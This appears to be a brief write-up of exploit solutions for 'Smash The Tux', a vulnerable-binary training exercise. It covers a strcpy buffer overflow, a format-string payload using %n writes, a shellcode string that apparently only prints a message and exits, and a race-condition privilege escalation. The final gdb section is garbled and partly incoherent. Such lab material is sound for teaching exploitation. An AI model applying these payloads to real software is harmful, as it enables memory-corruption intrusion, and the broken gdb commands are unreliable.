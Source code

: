 
# Smash The Tux

##0x00
- strcpy buffer overflow

simply pass in the large buffer and point to the address of the start of the buffer for your boomcode


##0x01
- format string, no validation

```bash
open('/tmp/foo.bin', 'wb').write("\xcc\xcc\xcc\xcc" + '\x54\x97\x04\x08' + '\x55\x97\x04\x08' + '\x56\x97\x04\x08' + '\x57\x97\x04\x08'+ 'A'*12 + '%5$n' + 'A'*0xD3 + '%6$n' + 'foobarbaZbar' + '%7$n' + 'A'*0xc0 + '%8$n' )
```

- some boom code
```bash
SHELLCODE += '\xeb\x13\x59\x31\xc0\xb0\x04\x31\xdb\x43\x31\xd2\xb2\x0f\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe8\xff\xff\xff\x62\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6d\x21\x0a\x0d'
```

0x01
- privilege escalation
- theres a race conditions for uid and accessing the file, so we will override the memory via gdb as user and show it works

objdump at stat, first add, change argv to be ".readthis"

bp call to fgets
gdb > x/16s 0xbset {char [size]}
`x/16s set {char[0x0a]} 0xbfffff8f5=".readthis"`


{charset ".readthis"

